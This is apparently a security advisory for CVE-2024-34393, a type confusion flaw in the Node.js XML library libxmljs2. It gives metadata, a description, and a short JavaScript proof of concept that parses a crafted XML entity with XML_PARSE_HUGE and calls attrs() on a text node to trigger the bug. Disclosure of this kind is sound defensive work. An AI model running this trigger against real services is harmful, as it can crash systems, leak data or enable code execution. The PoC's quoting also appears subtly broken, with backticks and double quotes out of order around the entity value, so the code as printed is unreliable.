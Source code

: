 ```yaml
---
description: CVE-2024-34393, HIGH, libxmljs2 attrs type confusion RCE
title: libxmljs2 attrs type confusion RCE
date_published: "2024-05-02"
last_updated: "2024-05-02"
xray_id: JFSA-2024-001034097
vul_id: CVE-2024-34393
cvss: 8.1
severity: high
discovered_by: Uriya Yavnieli
type: vulnerability

---
```


## Summary

libxmljs2 attrs type confusion RCE

## Component

libxmljs2

## Affected versions

(,)

## Description

libxmljs2 is vulnerable to a type confusion vulnerability when parsing a specially crafted XML while invoking a function on the result of attrs() that was called on a parsed node. This vulnerability might lead to denial of service (on both 32-bit systems and 64-bit systems), data leak, infinite loop and remote code execution (on 32-bit systems with the XML_PARSE_HUGE flag enabled).

## PoC

```js
const libxmljs2 = require('libxmljs2');

var d = `<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note
[
<!ENTITY writer `" + 'A'.repeat(0x1234) + `">
]>
<from>&writer;</from>
`;

t = libxmljs2.parseXml(d, {flags: [libxmljs2.XMLParseFlags.XML_PARSE_HUGE]})
from = t.get('//from')
c = from.childNodes()[0]
c2 = c.childNodes()[0]
c2_attrs = c2.attrs()
```



## Vulnerability Mitigations

No mitigations are supplied for this issue



## References

[Original Advisory](https://github.com/marudor/libxmljs2/issues/204)

